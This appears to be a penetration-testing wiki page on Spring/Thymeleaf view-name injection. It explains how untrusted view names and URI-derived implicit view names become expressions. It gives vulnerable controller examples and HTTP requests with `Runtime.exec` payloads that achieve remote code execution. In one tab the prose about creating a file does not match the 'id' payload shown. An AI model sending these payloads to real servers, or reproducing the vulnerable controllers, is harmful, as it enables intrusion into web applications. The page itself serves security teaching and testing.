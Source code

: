# Spring View Manipulation

## Theory

Spring application that uses Thymeleaf as its templating engine, if template name or fragment is concatenated with untrusted data, it can lead to expression language injection and hence RCE.

## Practice

### Untrusted Thymeleaf view name

{% tabs %}
{% tab title="Theory" %}
If Thymeleaf view engine is used (the most popular for Spring), the template might look like this one:

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

Thymeleaf engine supports [file layouts](https://www.thymeleaf.org/doc/articles/layouts.html), that allows you to specify a fragment in the template by using `<div th:fragment="main">` and then request only this fragment from the view:

```java
@GetMapping("/main")
public String fragment() {
    return "welcome :: main";
}
```

Thymeleaf is intelligent enough to return only the main `div` from the `welcome` view, but not the whole document.

Before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:

```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```

As a result, if template name or fragment is concatenated with untrusted data, it can lead to expression language injection and hence RCE.
{% endtab %}

{% tab title="Exploit" %}
This exploit uses [expression preprocessing](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/). In order for the expression to be executed by the Thymeleaf, no matter what prefixes or suffixes are, it is necessary to surround it with `__${` and `}__::.x`.

For instance, the following methods are vulnerable to expression language injection:

```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    // potential path traversal, but limited to the 'templates' folder
    return "user/" + lang + "/welcome";
}

@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section;
}
```

The following request creates the `executed` file on the server:

```http
GET /path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x HTTP/1.1
Host: vulnerable-website.com
```
{% endtab %}
{% endtabs %}

### Untrusted implicit view name

{% tabs %}
{% tab title="Exploit" %}
Controllers do not always return strings that explicitly tell Spring what view name to use. As described in the [documentation](https://docs.spring.io/spring-framework/docs/current/reference/html/web.html#mvc-ann-return-types), for some return types such as `void`, `java.util.Map` or `org.springframework.ui.Model`, the view name is implicitly determined through a `RequestToViewNameTranslator`.

This means that at first glance such a controller may seem completely innocent, it does almost nothing, but since Spring does not know which view name to use, it **takes it from the request URI**.

```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

Specifically, `DefaultRequestToViewNameTranslator` does the following:

```java
/**
 * Translates the request URI of the incoming {@link HttpServletRequest}
 * into the view name based on the configured parameters.
 * @see org.springframework.web.util.UrlPathHelper#getLookupPathForRequest
 * @see #transformPath
 */
@Override
public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request, HandlerMapping.LOOKUP_PATH);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}
```

So, it becomes vulnerable because the user controlled data (URI) comes in directly to view name and is resolved as an expression:

```http
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
Host: vulnerable-website.com
```
{% endtab %}
{% endtabs %}
